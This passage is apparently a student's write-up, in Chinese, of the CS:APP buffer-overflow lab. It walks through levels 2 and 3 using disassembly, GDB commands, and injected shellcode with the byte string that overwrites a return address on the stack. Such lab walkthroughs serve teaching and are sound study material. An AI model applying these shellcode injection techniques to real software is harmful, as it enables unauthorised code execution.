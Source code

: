 ```assembly
 8048c15:	83 ec 0c             	sub    $0xc,%esp
 8048c18:	6a 02                	push   $0x2
 8048c1a:	e8 58 08 00 00       	call   8049477 <validate>
 8048c1f:	83 c4 10             	add    $0x10,%esp
 8048c22:	eb 16                	jmp    8048c3a <bang+0x51>
 8048c24:	a1 40 e1 04 08       	mov    0x804e140,%eax
 8048c29:	83 ec 08             	sub    $0x8,%esp
 8048c2c:	50                   	push   %eax
 8048c2d:	68 61 a3 04 08       	push   $0x804a361
 8048c32:	e8 09 fc ff ff       	call   8048840 <printf@plt>
 8048c37:	83 c4 10             	add    $0x10,%esp
 8048c3a:	83 ec 0c             	sub    $0xc,%esp
 8048c3d:	6a 00                	push   $0x0
 8048c3f:	e8 dc fc ff ff       	call   8048920 <exit@plt>
```

```shell
break getbuf
x/x &global_value
p/x $esp
```

得到的%esp的地址就是字符串输入的地址，也就是我们需要跳转到的地址，这里是`0x55683408`。

```assembly
movl $0x58a890cb, 0x804e140
push $0x8048be9
ret
```

```assembly
c7 05 40 e1 04 08 cb 90
a8 58 68 e9 8b 04 08 c3
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 08 34 68 55
```



### Level 3

`cookie = 0x804e138`

getbuf的代码，发现返回值存在%eax里面

```assembly
movl $0x58a890cb, %eax
push $0x8048c57
ret
```

```assembly
break *0x8048c52
r -u 2016011246 < level0
i r
```
